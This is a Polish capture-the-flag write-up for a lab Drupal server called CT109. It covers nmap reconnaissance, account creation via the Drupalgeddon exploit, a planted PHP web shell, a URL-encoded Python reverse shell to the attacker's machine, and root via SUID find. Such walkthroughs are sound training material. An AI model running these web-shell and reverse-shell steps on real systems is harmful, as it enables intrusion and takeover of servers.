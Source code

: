 # FINAL - TASK CT109

```ascii
   _____   ______    ____     __ __                  __
  / ___/  / ____/   /  _/  __/ // /_   ____   ___   / /_
  \__ \  / /        / /   /_  _  __/  / __ \ / _ \ / __/
 ___/ / / /___    _/ /   /_  _  __/  / / / //  __// /_
/____/  \____/   /___/    /_//_/    /_/ /_/ \___/ \__/

 _       __     _ __          __  __
| |     / /____(_) /____     / / / /___
| | /| / / ___/ / __/ _ \   / / / / __ \
| |/ |/ / /  / / /_/  __/  / /_/ / /_/ /
|__/|__/_/  /_/\__/\___/   \____/ .___/
```

### **Sypnosis**

1. [Wstępna enumeracja](#Wstępna-enumeracja)
2. [Dostęp do panelu Drupal (Pierwsza Flaga)](#Dostęp-do-panelu-Drupal)
3. [Dostęp do serwera](#Dostęp-do-serwera)
4. [Eskalacja uprawnień i dostęp do konta root'a (Druga Flaga)](#Eskalacja-uprawnień-i-dostęp-do-konta-root'a)

### **Recon**

Nim przystąpimy do rozwiązania zadania musimy zlokalizować gdzie znajduje się serwer docelowy. Wiemy, że jego hostname to CT109 a sieć do której jesteśmy połączeni ma adres **192.168.13.0/24**.
W celu znalezienia adresu IP CT109 wykorzystamy oprogramowanie do analizy serwerów **nmap**:
```bash
# nmap -sn 192.168.13.*
```
Znaleziony CT109:  
![recon](./img/recon.png "recon")

Teraz kiedy mamy już adres serwera możemy przejść do właściwego zadania.

### **Solving**

#### Wstępna enumeracja

W celu zbadania z czym mamy doczynienia ponownie wykorzystamy oprogramowanie **nmap**:
```bash
# nmap -sS -sV 192.168.13.249
```
Wynik powyższego polecenia:  
![nmap](./img/nmap.png "nmap")

W wyniku analizy dowiadujemy się, że:
- System operacyjny na którym postawiony jest CT109 to Linux
- Otwarte porty to 22 oraz 80

Do SSH się raczej jeszcze nie dostaniemy (o ile wogóle), tak więc sprawdźmy serwer WWW.  
![Drupal](./img/drupal.png "Drupal")

Otwieramy przeglądarkę a naszym oczom ukazuje się Drupal CMS.


#### Dostęp do panelu Drupal

Jak już wiemy z czym mamy doczynienia, możemy przejść do działania. Do panelu dostaniemy się z użyciem exploit'u ['Drupalgeddon' SQL Injection](https://www.exploit-db.com/exploits/34992). Luki w Drupalu pozwalają nam na dodanie sobie konta z uprawnieniami Administratora.
```bash
# python 34922.py -t http://192.168.13.249 -u writeup -p writeup
```
Wynik działania skryptu:  
![34992](./img/34992.png "34992")

Wersja Drupala jest wrażliwa na exploit, tak więc teraz możemy się zalogować.  
![Panel](./img/panel.png "Panel")

Po krótkim przeszukaniu panelu w zakładce **'Content'** znajdujemy element o nazwie **'flag3'**, w którym znajduje się pierwsza z flag.  
![Drupalflag](./img/drupalflag.png "Drupalflag")  
>scinet{drupalflag}

Mamy flagę, dostęp do panelu oraz uprawnienia administratora. Teraz czas dostać się na serwer.

#### Dostęp do serwera

Nim będziemy mogli otworzyć sobie dostęp do powłoki musimy włączyć możliwość umieszczania kodu PHP w artykułach oraz podstronach. W tym celu: 
*Wchodzimy w **'Modules'** -> Zaznaczamy **'PHP filter'** -> Zapisujemy -> Wchodzimy w operacje **'Permissions'** przy 'PHP filter' -> Zaznaczamy **'Use the PHP code text format'** w kolumnie ADMINISTRATOR -> Ponownie zapisujemy.*

Teraz możemy przejść do wgrania naszego złośliwego kodu.
*Wchodzimy w **'Structure'** -> Tworzymy nowy **'Block'** -> Ustawiamy **'Text format'** na **'PHP code'***
```php
<pre><?php system($_GET['c']) ?></pre>
```
*Następnie przesuwamy nowo utworzony blok do sekcji **'header'***

Nim przejdziemy do uzyskiwania dostępu, sprawdzimy poprawność działania naszego RCE:  
![RCE](./img/rce.png "RCE")

Teraz kiedy mamy już możliwość wykonywania komend, w nowym terminalu rozpoczynamy nasłuchiwanie portu wybranego portu np. 4444
```bash
# nc -lvp 4444
```
Oraz za pośrednictwem spreparowanego url otwieramy sobie reverse shell:
```bash
http://192.168.13.249/?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22192.168.13.234%22,4444%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
```
W efekcie czego otrzymujemy dostęp do shell'a.  
![Shell](./img/limited_shell.png "Shell")

#### Eskalacja uprawnień i dostęp do konta root'a

Mimo, że mamy już dostęp do ograniczonej powłoki. Teraz musimy użyć jakiegoś sposobu aby zdobyć sesję TTY. Ja użyję pythona:
```sh
$ python -c 'import pty; pty.spawn("/bin/bash");'
```  
![TTY](./img/tty.png "TTY")

Mamy już powłokę, ale jeszcze nie root'a. Ponownie wykonujemy enumerację, jednak tym razem szukamy czegość co posiada na sobie SUID.
```bash
$ find / -user root -perm -4000 -print 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```  
![Enumeracja](./img/enumeration.png "Enumeracja")

Ze zdobytych informacji dowiadujemy się o obecności SUID na binarce polecenia **find**, możemy bardzo łatwo to wykorzystać. Tworzymy plik, a następnie "odszukujemy go":
```bash
$ touch writeup
$ find writeup -exec whoami \;
```  
![Find](./img/find.png "Find")

Teraz możemy bez przeszkód zdobyć flagę:
```bash
$ find writeup -exec cat /root/flaga.txt \;
```  
![Drupalmaster](./img/drupalmaster.png "Drupalmaster")  
>scinet{drupalmaster}

W ten oto sposób otrzymujemy flagę - zadanie wykonane :D

## Contributing

Jeżeli zauważyłeś/aś błąd lub chcesz dodać swoją wersję rozwiązania - proszę o pull request :)
 